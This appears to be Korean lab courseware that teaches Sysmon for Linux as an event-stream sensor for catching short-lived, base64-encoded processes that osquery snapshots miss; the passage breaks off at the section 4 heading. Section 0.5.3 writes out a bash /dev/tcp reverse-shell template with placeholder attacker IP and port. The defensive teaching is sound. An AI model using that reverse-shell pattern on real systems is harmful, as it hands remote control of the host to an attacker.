




# Week 11 — 호스트의 비행기록장치: Sysmon for Linux 가 '그 순간'을 영구히 남기는 법

> **본 주차의 한 줄 요약**
>
> W07 의 osquery 는 **스냅샷(snapshot)** — "지금 이 순간 무엇이 떠 있나" 를 SQL 로
> 찍는다. 강력하지만, 공격이 **짧게 실행되고 사라지면**(단명 프로세스, 즉시 지워진 파일)
> 다음 스냅샷 때는 이미 흔적이 없다. 이번 주는 그 사각지대를 메우는 **이벤트
> 스트림(event stream)** — **Microsoft Sysmon for Linux** — 를 다룬다. sysmon 은
> 프로세스가 **생성되는 바로 그 순간**의 전체 명령줄(base64 인코딩까지), 네트워크 연결,
> 파일 생성을 하나하나 이벤트로 기록한다. 프로세스가 죽어도 "생성됐다는 사실" 은 로그에
> 영구히 남는다. 호스트의 **비행기록장치(flight recorder)** 다.
>
> **운영자 한 줄 결론**: osquery 가 "지금 방 안에 누가 있나" 를 찍는 카메라라면, sysmon 은
> "방에 들어오고 나간 모든 순간" 을 끊김 없이 녹화하는 블랙박스다. 침해 사고의 핵심 단서는
> 대개 **이미 사라진 그 짧은 순간** 에 있고, 그 순간을 잡는 것이 이벤트 스트림이다.

---

## 학습 목표

본 주차 종료 시 학생은 다음 6가지를 **본인 손으로** 할 수 있어야 한다.

1. **스냅샷(osquery)** 과 **이벤트 스트림(sysmon)** 의 본질적 차이를 비유 없이 1분 안에
   설명하고, 어떤 위협(단명·인코딩·삭제된 흔적)이 스냅샷의 사각이며 왜 이벤트 스트림이
   그것을 잡는지 근거를 댄다.
2. el34 의 sysmon 이 **왜 컨테이너가 아니라 호스트(192.168.0.80)에 설치** 됐는지를
   eBPF 권한·인터넷 접근·네임스페이스 관점에서 설명하고, 호스트 sysmon 이 el34-web
   컨테이너 내부 활동까지 포착하는 원리를 그림으로 그린다.
3. 호스트에서 `systemctl is-active sysmon` / `sysmon -c` / `grep Linux-Sysmon
   /var/log/syslog` 세 명령으로 sysmon 센서·필터·적재가 살아 있는지 30초에 점검한다.
4. base64 로 인코딩된 리버스셸 페이로드를 `base64 -d` 로 디코드해 의도(`/dev/tcp/...`
   콜백)를 밝히고, sysmon 의 **ProcessCreate(EventID 1)** 가 그 디코딩·실행 명령의
   cmdline 을 영구히 남김을 데이터로 확인한다.
5. **단명·인코딩 프로세스** 를 만들어, 같은 위협을 osquery 스냅샷은 놓치고(빈 결과)
   sysmon 이벤트는 잡는(syslog 보존) 대비를 직접 재현하고, **NetworkConnect(3)** / 
   **FileCreate(11)** 로 콜백 연결과 페이로드 drop 의 순간까지 추적한다.
6. 지속성(persistence) 백도어 계정은 **상태가 남는** 위협이라 osquery 스냅샷의 강점
   영역임을 확인해 두 도구의 **역할 분담**(sysmon=순간 이벤트 / osquery=상태 스냅샷)을
   정리하고, 실습 아티팩트를 self-clean 하되 sysmon 센서는 영속 인프라로 보존한다.

---

## 0. 용어 해설 (호스트 이벤트 가시화 입문)

이번 주에 처음 등장하거나 의미를 정확히 해 두어야 하는 용어를 먼저 모아 둔다. 본문에서
다시 나올 때 막히면 이 표로 돌아오면 된다.

| 용어 | 영문 | 뜻 | 비유 |
|------|------|----|------|
| **스냅샷** | snapshot | "지금 이 순간" 의 상태를 한 번 찍은 것(osquery) | 단체 사진 한 장 |
| **이벤트 스트림** | event stream | 일어나는 일을 순간순간 끊김 없이 기록한 것(sysmon) | CCTV 녹화 영상 |
| **Sysmon for Linux** | System Monitor for Linux | MS 가 만든 Linux 호스트 이벤트 기록 도구 | 호스트의 비행기록장치 |
| **eBPF** | extended Berkeley Packet Filter | 커널 안에서 안전하게 이벤트를 가로채는 현대 커널 기술 | 커널에 심은 도청 센서 |
| **EventID** | Event ID | sysmon 이 이벤트 종류에 매기는 번호(1/3/11 등) | 사건 분류 코드 |
| **ProcessCreate** | EventID 1 | 새 프로세스가 생성되는 순간의 이벤트(명령줄 포함) | 누가 방에 들어온 순간 |
| **NetworkConnect** | EventID 3 | 프로세스가 외부로 연결을 맺는 순간의 이벤트 | 누가 외부로 전화 건 순간 |
| **FileCreate** | EventID 11 | 파일이 생성되는 순간의 이벤트 | 누가 물건을 떨어뜨린 순간 |
| **cmdline** | command line | 프로세스를 띄운 전체 명령 문자열(인자 포함) | 들어온 사람이 한 말 전부 |
| **단명 프로세스** | short-lived / ephemeral process | 아주 짧게 실행되고 즉시 종료되는 프로세스 | 잠깐 들렀다 나간 방문객 |
| **base64** | — | 임의 데이터를 ASCII 문자로 바꾸는 인코딩(은닉에 악용) | 글자를 암호 카드로 바꿔 적기 |
| **리버스셸** | reverse shell | 피해 호스트가 공격자에게 거꾸로 셸을 내주는 연결 | 안에서 밖으로 거는 비상 전화 |
| **persistence** | 지속성 | 재부팅·로그아웃 후에도 발판을 유지하는 공격 단계 | 몰래 만들어 둔 비상 출입증 |
| **syslog** | system log | Linux 의 표준 시스템 로그(`/var/log/syslog`) | 건물의 통합 일지 |
| **RuleGroup(필터)** | — | sysmon config 가 "무엇을 기록/제외할지" 정한 규칙 묶음 | 녹화 대상 선별 기준 |
| **네임스페이스** | namespace | 컨테이너를 격리하지만 커널은 공유하게 하는 Linux 기능 | 같은 건물 안 칸막이 방 |
| **CAP_BPF / SYS_ADMIN** | Linux capability | eBPF 센서를 올리려면 필요한 커널 권한 | 센서 설치 허가증 |
| **self-clean** | — | 실습이 만든 흔적을 끝나고 직접 지우는 것 | 쓴 자리 원상복구 |

---

## 0.5 핵심 개념 — "스냅샷은 사진, 이벤트는 녹화"

위 용어 표는 한 줄 정의라서 신입생이 그림을 그리기엔 부족하다. 본 절에서는 W11 의 가장
중요한 직관 세 가지를 일상 비유로 풀어 둔다. 이 세 비유가 W11 전체를 관통한다.

### 0.5.1 스냅샷 vs 이벤트 스트림 — 단체 사진과 CCTV 비유

학생이 어떤 행사장의 출입을 감시하는 경비원이라고 하자. 두 가지 방법이 있다.

- **방법 A — 단체 사진(스냅샷).** 1분에 한 번씩 행사장 전체를 사진으로 찍는다. 사진을
  보면 "지금 누가 있나" 는 정확히 안다. 하지만 사진과 사진 **사이** 에 잠깐 들어왔다
  나간 사람은 어느 사진에도 안 찍힌다. 셔터를 누르는 순간 이미 나가 버렸기 때문이다.
- **방법 B — CCTV 녹화(이벤트 스트림).** 문에 카메라를 달아 **들어오고 나가는 모든
  순간** 을 끊김 없이 녹화한다. 1초만 머물다 간 사람도, 영상에는 "몇 시 몇 분에 들어와서
  몇 초 뒤에 나갔다" 가 그대로 남는다.

이 두 방법이 호스트 가시화에서 그대로 osquery 와 sysmon 이다.

| 행사장 비유 | 호스트 가시화 도구 | 무엇을 보나 |
|-------------|---------------------|-------------|
| 1분마다 단체 사진 | **osquery**(스냅샷, W07) | 찍는 순간 떠 있는 프로세스/계정/포트 |
| 문에 단 CCTV 녹화 | **sysmon**(이벤트 스트림, W11) | 생성·연결·파일이 일어난 모든 순간 |

핵심 통찰은 이것이다. 공격자는 일부러 **사진과 사진 사이의 짧은 순간** 에 일을 끝낸다 —
인코딩된 한 줄 명령을 실행하고 즉시 사라진다. 그래서 osquery 스냅샷만으로는 "분명 뭔가
지나갔는데 사진엔 안 찍힌" 사각이 생긴다. sysmon 의 이벤트 스트림이 바로 이 사각을
메운다. 단, 둘은 경쟁이 아니라 **보완** 이다 — 행사가 끝난 뒤에도 남아 있는 "비상
출입증"(백도어 계정) 같은 지속 상태는 오히려 단체 사진(osquery)이 한 장으로 확실히
잡는다. 무엇을 잡느냐가 다르다.



### 0.5.2 eBPF — 커널 안에 안전하게 심은 도청 센서 비유

학생이 큰 건물의 보안 책임자라고 하자. 건물 안에서 일어나는 모든 일을 알고 싶다. 두
방법이 있다.

- **옛 방식 — 직원에게 일일이 물어본다.** 무슨 일이 있을 때마다 직원이 보고서를 쓰게
  한다. 느리고 누락이 많다.
- **현대 방식 — 복도마다 작은 센서를 단다.** 센서가 사람이 지나갈 때마다 자동으로
  기록한다. 단, 센서가 건물 기능을 망가뜨리면 안 되므로 **검증된 안전한 센서만** 설치를
  허가한다.

이 "검증된 안전한 센서" 가 Linux 커널에서는 **eBPF(extended Berkeley Packet Filter)** 다.

**eBPF** 는 커널을 다시 컴파일하거나 위험한 커널 모듈을 직접 올리지 않고도, 커널 안에서
이벤트(프로세스 생성, 네트워크 연결 등)를 안전하게 가로채 기록하는 현대 커널 기술이다.
커널이 eBPF 프로그램을 **검증(verifier)** 한 뒤에만 실행하므로 시스템을 망가뜨릴 위험이
낮다. Sysmon for Linux 는 바로 이 eBPF 를 센서로 써서 호스트 커널의 이벤트를 잡는다.
그래서 eBPF 를 올리려면 커널 권한(CAP_BPF/SYS_ADMIN)과 충분히 새 커널(5.x 이상)이
필요하고, el34 호스트는 커널 6.8 이라 조건을 만족한다.

### 0.5.3 리버스셸 + base64 — 안에서 거는 비상 전화에 암호를 씌우기

보통 공격자가 셸(원격 명령 권한)을 얻는 그림은 "공격자가 피해 호스트에 접속한다" 이다.
그런데 피해 호스트가 방화벽 뒤에 있어 밖에서 직접 들어갈 수 없을 때, 공격자는 방향을
뒤집는다.

- **리버스셸(reverse shell).** 피해 호스트가 **거꾸로** 공격자에게 연결을 걸어 셸을
  내준다. 마치 건물 안에 갇힌 사람이 밖으로 비상 전화를 거는 것과 같다. 방화벽은 보통
  "밖에서 안" 은 막아도 "안에서 밖" 은 허용하므로 이 우회가 통한다. 명령은 보통
  `bash -i >& /dev/tcp/<공격자IP>/<포트> 0>&1` 형태이며, `/dev/tcp/...` 는 bash 가
  제공하는 가상 장치로 그 주소·포트로 TCP 연결을 연다.
- **base64 인코딩.** 공격자는 이 명령이 로그·탐지에 평문으로 남지 않도록 **base64** 로
  인코딩해 위장한다. base64 는 임의의 데이터를 알파벳·숫자 문자열로 바꾸는 인코딩이라,
  사람 눈엔 의미 없는 글자 덩어리로 보인다. 실행 직전에 `base64 -d`(decode)로 풀어
  원래 명령을 되살린다.

핵심은 sysmon 의 위력이 여기서 드러난다는 점이다. 공격자가 아무리 base64 로 위장하고
명령을 **짧게** 실행하고 지워도, sysmon 의 **ProcessCreate(EventID 1)** 가 그 디코딩·실행
프로세스가 생성된 **그 순간의 전체 cmdline** 을 syslog 에 남긴다. 사후에 "무엇을
디코드해 무엇을 실행했나" 를 그대로 복원할 수 있다. 이것이 osquery 스냅샷과 결정적으로
갈리는 지점이다.

> **이 트랙의 안전 수칙.** 본 주차의 "리버스셸" 은 **실제 외부 공격자에게 셸을 내주지
> 않는다.** 디코드로 의도만 밝히고(실습 2), 콜백은 호스트 내부 루프백(127.0.0.1)으로
> 모사하며(실습 4), 페이로드 파일·백도어 계정은 만들자마자 self-clean 한다. el34 호스트는
> 모든 학생이 공유하므로, 실습이 만든 흔적은 끝까지 남기지 않는 것까지가 SOP 다.

---

## 1. 왜 스냅샷만으로는 부족한가 — 단명 프로세스라는 사각

### 1.1 한 줄 답: 공격은 사진과 사진 사이의 짧은 순간에 끝나기 때문

W07 에서 배운 osquery 는 "지금 이 순간" 의 상태를 SQL 로 찍는 강력한 도구다. 하지만 그
강점이 곧 한계다. osquery 의 결과는 **쿼리를 실행한 그 순간** 에 존재하는 것만 담는다.
공격자가 인코딩된 한 줄 명령을 실행하고 0.1 초 만에 종료하면, 그 다음에 osquery 를 아무리
정확히 돌려도 결과는 빈 줄이다. 프로세스가 이미 죽었기 때문이다.

| 위협의 성격 | osquery 스냅샷 | sysmon 이벤트 스트림 |
|-------------|----------------|----------------------|
| 짧게 살다 죽은 프로세스 | **놓침**(조사 시점에 살아 있어야 보임) | **포착**(생성 순간이 영구히 남음) |
| 즉시 삭제된 파일 | 놓치기 쉬움 | FileCreate 로 생성 사실 포착 |
| 지금 떠 있는 프로세스 | 포착 | 포착(생성 이벤트로) |
| 지속 상태(계정·발판) | **확실히 포착** | 직접 대상 아님 |

### 1.2 왜 중요한가 — 침해의 결정적 단서는 대개 "이미 사라진 순간"에 있다

실제 침해 분석에서 분석가가 가장 자주 마주치는 좌절이 "분명 뭔가 실행됐는데 지금은
흔적이 없다" 이다. 공격자는 의도적으로 단명·인코딩·즉시삭제를 써서 스냅샷 기반 도구의
사각으로 파고든다. 그 사각을 메우지 못하면 "무엇이 실행됐는가" 라는 IR 의 핵심 질문에
답할 수 없다. 이벤트 스트림은 바로 이 "이미 사라진 순간" 을 영구 기록으로 붙잡아 두는
장치다.

### 1.3 el34 에서 어떻게 — sysmon 이 그 순간을 syslog 에 남긴다

el34 에서는 호스트(192.168.0.80)에 Sysmon for Linux 가 돌며, 프로세스 생성·네트워크
연결·파일 생성을 `/var/log/syslog` 에 `Linux-Sysmon` 소스의 XML 이벤트로 기록한다.
컨테이너 안에서 단명 프로세스를 실행해도, 그 생성 순간이 호스트 syslog 에 보존된다(§2 의
원리). 실습 3 에서 이 대비 — osquery 빈 결과 vs sysmon 보존 — 를 직접 재현한다.

### 1.4 한계 — 이벤트 스트림은 "지속 상태 조회"엔 둔하다

반대로 이벤트 스트림에도 한계가 있다. "지금 시스템에 백도어 계정이 몇 개 있나" 같은
**현재 상태** 질문은 이벤트 로그를 거꾸로 재구성하는 것보다 osquery 로 `users` 테이블을
한 번 찍는 게 빠르고 정확하다. 그래서 두 도구는 어느 하나가 우월한 게 아니라 **잡는
대상이 다른 보완재** 다(§8).

---

## 2. el34 의 sysmon — 왜 컨테이너가 아니라 호스트에 설치했나

### 2.1 한 줄 정의 — sysmon 은 호스트 커널의 이벤트를 잡는 eBPF 센서

**Sysmon for Linux** 는 Windows 의 Sysmon 을 Linux 로 포팅한 도구로, eBPF 를 센서로 써서
호스트 커널에서 일어나는 프로세스 생성·네트워크 연결·파일 생성 등을 이벤트로 기록한다.
el34 에는 **버전 1.5.2** 가 호스트(192.168.0.80)에 설치돼 systemd 서비스(`sysmon`)로
가동된다.

### 2.2 왜 호스트인가 — 컨테이너는 비특권, 호스트는 root + 커널 접근

핵심 질문이자 학생이 가장 헷갈리는 지점이다. "지금까지 모든 실습은 `el34-<X>` 컨테이너
안에서 했는데, 왜 sysmon 만 호스트에 깔았나?" 이유는 두 가지다.

- **eBPF 권한.** eBPF 센서를 커널에 올리려면 `CAP_BPF`/`SYS_ADMIN` 같은 커널 권한이
  필요하다. el34-web 같은 응용 컨테이너는 보안상 **비특권(unprivileged)** 으로 떠 있어 이
  권한이 없다. 즉 컨테이너 **안** 에서는 sysmon 을 띄울 수 없다.
- **인터넷·root.** sysmon 설치는 Microsoft 패키지 저장소에서 deb 를 받아야 하는데(§2.3),
  응용 컨테이너는 인터넷이 닫혀 있는 경우가 많고 root 패키지 설치도 제한된다. 호스트는
  root 권한과 인터넷 접근이 모두 된다.

그렇다면 호스트에 깔면 컨테이너 안은 못 보는 것 아닐까? **아니다.** 여기에 sysmon 을
호스트에 두는 결정적 근거가 있다.



**원리.** 컨테이너는 **네임스페이스(namespace)** 로 격리될 뿐, 자체 커널을 따로 갖지
않는다. 같은 건물(호스트 커널) 안의 칸막이 방일 뿐이다. 그래서 el34-web 안에서 실행한
프로세스도 **결국 호스트 커널이 실행하는 프로세스** 이고, 호스트에 올린 eBPF 센서가 그
프로세스의 생성·연결·파일 활동을 **그대로 포착** 한다. 한 곳(호스트)에 센서를 두고 그 위의
모든 컨테이너 활동을 보는 셈이다.

### 2.3 el34 에서 어떻게 — 설치 과정 (원래 없던 도구라 직접 설치)

sysmon 은 el34 기본 이미지에 없어 호스트에 직접 설치했다. 학생이 "이 도구가 왜 갑자기
나왔는지" 이해하도록 설치 흐름을 그대로 남긴다(Ubuntu 22.04 호스트, root 권한).

```bash
# ① Microsoft 패키지 저장소 등록 (sysmon 은 MS 가 배포)
curl -sSL -o /tmp/ms-prod.deb \
  https://packages.microsoft.com/config/ubuntu/22.04/packages-microsoft-prod.deb
dpkg -i /tmp/ms-prod.deb && apt-get update

# ② sysmonforlinux 설치 (eBPF 센서 sysinternalsebpf 의존성 자동 설치)
apt-get install -y sysmonforlinux      # → /usr/bin/sysmon + systemd 'sysmon' 서비스

# ③ config.xml 로 시작(= eBPF 로드). -accepteula 는 EULA 동의, -i 는 install
sysmon -accepteula -i /opt/sysmon-w11.xml   # 재설정은: sysmon -c <file>
```

각 단계의 의미:

- **① 저장소 등록** — sysmon 은 Microsoft 가 배포하므로, MS 의 apt 저장소를 등록하는
  `packages-microsoft-prod.deb` 를 먼저 설치한다. 그래야 `apt-get` 으로 sysmon 을 받을 수
  있다. (호스트가 인터넷에 닿아야 하는 이유 — 컨테이너로는 불가능한 단계다.)
- **② 패키지 설치** — `apt-get install sysmonforlinux` 가 `/usr/bin/sysmon` 바이너리와
  eBPF 의존성(`sysinternalsebpf`), 그리고 systemd `sysmon` 서비스를 깐다.
- **③ config 로 시작** — `sysmon -accepteula -i <config.xml>` 이 EULA 동의와 함께 eBPF
  센서를 커널에 로드하고, config 가 정한 필터로 기록을 시작한다. 이후 필터만 바꿀 때는
  `sysmon -c <file>` 을 쓴다.

> **왜 호스트인가(요약).** 컨테이너(el34-web)는 비특권이라 eBPF 권한(CAP_BPF/SYS_ADMIN)이
> 없고 인터넷·root 설치도 제한된다. 호스트는 root + 커널 접근 + 인터넷이 모두 되고,
> 컨테이너 프로세스는 호스트 커널 프로세스이므로 **호스트 sysmon 이 컨테이너 안까지 다
> 본다**(§2.2). 그래서 sysmon 만 예외적으로 호스트에 산다.

### 2.4 한계 — config 필터·syslog 폭주·로그 읽기 권한

- **config 필터(RuleGroup).** el34 호스트는 공유 자원이라, 모든 프로세스를 다 기록하면
  syslog 가 폭주한다. 그래서 이 lab 의 config 는 실습 마커(`b64decode`/`dev/tcp`/`w11`,
  포트 `53666`)에 한정해 기록하도록 필터링돼 있다. **운영 환경의 sysmon 은 보통 더
  폭넓게 캡처하고 분석 단계에서 필터** 한다 — lab 은 공유 호스트 보호를 위한 의도적
  좁힘이다.
- **로그 위치·권한.** 이벤트는 `/var/log/syslog` 에 `Linux-Sysmon` 소스로 남는다. el34
  의 `ccc` 계정은 `adm` 그룹에 속해 **sudo 없이** 이 로그를 읽는다.
- **이벤트 종류.** 이 환경 config 는 **EventID 1(ProcessCreate) / 3(NetworkConnect) /
  11(FileCreate)** 를 기록한다. 노이즈가 큰 ProcessTerminate(5)는 억제했다.

---

## 3. Sysmon 의 핵심 EventID 세 가지 — 무엇을, 언제 남기나

### 3.1 한 줄 정의 — sysmon 은 사건 종류마다 번호(EventID)를 붙인다

sysmon 은 기록하는 이벤트의 종류마다 **EventID** 라는 번호를 매겨 syslog 에 XML 로
남긴다. 이번 주 config 에서 쓰는 세 가지가 핵심이며, 각각 침해 사슬의 한 단계를 비춘다.



### 3.2 ProcessCreate (EventID 1) — sysmon 의 별

**한 줄 정의**: 새 프로세스가 생성되는 **바로 그 순간** 을, 그 프로세스를 띄운 전체
명령줄(cmdline)과 함께 남기는 이벤트.

**왜 중요한가**: 이것이 osquery 스냅샷과 갈리는 결정적 지점이다. 인코딩되고 짧게 실행되는
명령은 osquery 가 놓치지만(조사 시점엔 이미 죽음), sysmon 의 ProcessCreate 는 생성 순간의
**전체 cmdline** 을 영구히 남긴다. 그래서 사후에 "무엇을 디코드해 무엇을 실행했나" 를
그대로 복원할 수 있다.

**el34 에서 어떻게**: el34-web 안에서 단명 인코딩 프로세스를 실행한 뒤, osquery 와 sysmon
을 나란히 본다.

```bash
# el34-web 안에서 인코딩 명령 실행 (짧게 살고 죽음)
ssh ccc@10.20.32.80 python3 -c "import base64; base64.b64decode('aGk=')  # w11 reverse-shell sim"

# osquery 스냅샷 — 이미 죽은 프로세스 → 빈 결과
ssh ccc@10.20.32.80 sudo osqueryi --json \
  'SELECT pid,cmdline FROM processes WHERE cmdline LIKE "%b64decode%";'
#   → []   (스냅샷의 사각)

# sysmon — 생성 순간이 syslog 에 남아 있음 (호스트에서)
grep -a 'Linux-Sysmon' /var/log/syslog | grep -a b64decode | tail -1
#   → <EventID>1</EventID> … <CommandLine>python3 -c import base64...b64decode…  (포착!)
```

**해석**: osquery 가 `[]`(빈 배열)을 돌려주는 것은 "조사 시점에 그 프로세스가 없다" 는
뜻이다 — 실패가 아니라 스냅샷의 본질적 한계다. 반면 sysmon 의 한 줄에는 `<EventID>1</...>`
과 `<CommandLine>...b64decode...` 가 그대로 남아 있다. **같은 위협을 한 도구는 놓치고 한
도구는 잡는다.** 이 대비가 W11 의 핵심 학습이다.

**한계**: lab config 가 마커(`b64decode` 등)에 한정 필터돼 있어, 마커가 없는 일반
프로세스는 이 환경에선 기록되지 않는다(운영은 더 넓게 캡처).

### 3.3 NetworkConnect (EventID 3) — 콜백 연결의 순간

**한 줄 정의**: 프로세스가 외부로 TCP 연결을 맺는 순간을, 목적지 IP·포트와 함께 남기는
이벤트.

**왜 중요한가**: 리버스셸은 피해 호스트가 공격자에게 **거꾸로** 연결을 건다(§0.5.3).
sysmon 은 그 연결을 NetworkConnect 로 남기되, 단순히 "연결이 있었다" 가 아니라 **어느
프로세스가** 어디로 연결했는지를 호스트 내부 관점에서 본다. 이것이 네트워크 경계에서 보는
Suricata(W03–W04)와 상호 보완되는 지점이다.

**el34 에서 어떻게**: 콜백 포트 53666 으로의 연결을 모사하고 sysmon 이 잡는지 본다.

```bash
grep -a 'Linux-Sysmon' /var/log/syslog | grep -a '<EventID>3<' | grep -a 53666 | tail -1
#   → <EventID>3</EventID> … <DestinationPort>53666</DestinationPort>  (콜백 채널 포착)
```

**해석**: `<EventID>3<` 와 `<DestinationPort>53666` 이 보이면, 호스트 관점에서 "그 포트로
나가는 연결의 순간" 을 잡은 것이다. Suricata 가 경계에서 패킷을 본다면, sysmon 은 **그
연결을 일으킨 프로세스 쪽** 에서 본다 — 두 관점을 합치면 "누가, 어디로, 어떤 트래픽으로"
가 완성된다.

**한계**: 이 lab 에선 실제 외부 콜백 대신 호스트 루프백(127.0.0.1:53666)으로 모사한다 —
실제 리버스셸을 외부로 내주지 않기 위한 안전 장치다. 실제 침해라면 el34-web 프로세스가
외부로 연결하고 호스트 sysmon 이 그 순간을 잡는다.

### 3.4 FileCreate (EventID 11) — 페이로드가 떨어지는 순간

**한 줄 정의**: 파일이 생성되는 순간을, 대상 경로(TargetFilename)와 함께 남기는 이벤트.

**왜 중요한가**: 공격자는 페이로드 파일을 떨어뜨렸다가 곧바로 지워 흔적을 없애려 한다.
하지만 **생성됐다는 사실** 자체가 FileCreate 이벤트로 남으므로, 파일을 즉시 삭제해도 "그
순간 무엇이 생겼다" 는 추적된다. Wazuh FIM realtime(W10)과 같은 발상 — 파일 변화 포착 —
이되, 출처가 eBPF 라는 다른 소스다.

**el34 에서 어떻게**:

```bash
ssh ccc@10.20.32.80 'echo payload > /tmp/w11_payload.b64'
grep -a 'Linux-Sysmon' /var/log/syslog | grep -a '<EventID>11<' | grep -a w11 | tail -1
#   → <EventID>11</EventID> … <TargetFilename>/tmp/w11_payload.b64</TargetFilename>
```

**해석**: `<EventID>11<` 와 `<TargetFilename>/tmp/w11_payload.b64` 가 보이면 페이로드 drop
의 순간을 잡은 것이다. 이후 파일을 `rm` 으로 지워도 이 생성 이벤트는 syslog 에 남는다.

**한계**: FIM(W10)이 "지정한 보호 경로의 무결성" 에 집중한다면, sysmon FileCreate 는
"생성 이벤트 그 자체" 를 본다 — 둘은 같은 사건을 다른 각도에서 본다.

---

## 4. 이번 주 침해 사슬 — base64 리버스셸

